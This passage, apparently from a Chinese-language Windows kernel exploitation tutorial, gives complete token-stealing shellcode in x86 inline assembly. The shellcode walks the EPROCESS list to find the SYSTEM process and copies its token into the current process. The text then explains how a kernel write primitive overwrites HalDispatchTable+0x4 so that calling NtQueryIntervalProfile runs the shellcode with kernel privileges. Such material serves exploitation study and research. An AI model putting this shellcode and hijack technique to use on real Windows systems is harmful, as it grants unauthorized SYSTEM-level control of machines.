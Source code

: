 这里的ShellCode采用替换进程的令牌Toekn的方法，将当前用户态进程的令牌Token替换为高权限进程的Token，进而实现权限提升。

```
__declspec(naked) VOID ShellCode()
`{`
_asm
`{`
pushad
mov eax, fs: [124h] // Find the _KTHREAD structure of the current thread
mov eax, [eax + 0x50] // find the _EPROCESS structure
mov ecx, eax
mov edx, 4 // edx = system PID(4)

// The loop is to get the _EPROCESS of system
find_sys_pid :
mov eax, [eax + 0xb8] // Find the linked list of process activities
sub eax, 0xb8  // Linked list traversal
cmp[eax + 0xb4], edx  // Determine whether it is SYSTEM according to PID
jnz find_sys_pid

// Replace Token
mov edx, [eax + 0xf8]
mov[ecx + 0xf8], edx
popad
xor eax, eax
ret

`}`
`}`
```

单纯在用户态定义shellcode函数并进行调用，是无法获取高权限的进程令牌Token的，因此需要在内核态中，对shellcode函数进行调用，方可实现令牌Token替换的目的。

由于，我们具备了在内核态中的读写能力，我们可以找到在用户态中可以调用的,并且会产生模式切换的系统API函数，通过内核写，将该函数的入口地址修改为shellcode函数的入口地址，当我们在用户态调用该函数时，会进行模式切换，切换为内核模式并以内核权限调用我们的shellcode函数，进而实现提权。

我们可以在SSDT（SystemService Dispatch Table）、HalDispatchTable 两个表中去寻找可调用的内核API函数。在选用内核 API 函数的时候，要尽可能选择较少调用的函数，避免在修改了函数地址同时时，有其他进程进行调用，导致内存访问出错或程序崩溃。参考链接：[<u>https://blog.csdn.net/qq_43312649/article/details/105295017</u>](https://blog.csdn.net/qq_43312649/article/details/105295017)

这里选用的内核API函数为NtQueryIntervalProfile，NtQueryIntervalProfile函数是在ntdll.dll中导出的未公开的系统调用，可以直接在用户态下进行调用，因此我们可以通过Bitmap GDI技术，对该函数的入口地址进行替换与恢复。NtQueryIntervalProfile()是Ntdll.dll中导出的未公开的系统调用，它会调用由内核可执行程序ntosknl.exe导出的KeQueryIntervalProfile函数。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t016e47196bd701f5ec.png)

而KeQueryIntervalProfile函数又会进一步调用HalDispatchTable表加0x4偏移量的函数地址

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01097395440ef700d2.png)

因此，我们可以将ShellCode的入口地址，通过内核写漏洞，写入到HalDispatchTable + 0x4中，当我们调用NtQueryIntervalProfile并产生模式切换的时候，就会在内核态中调用我们的ShellCode函数，进而完成提权。
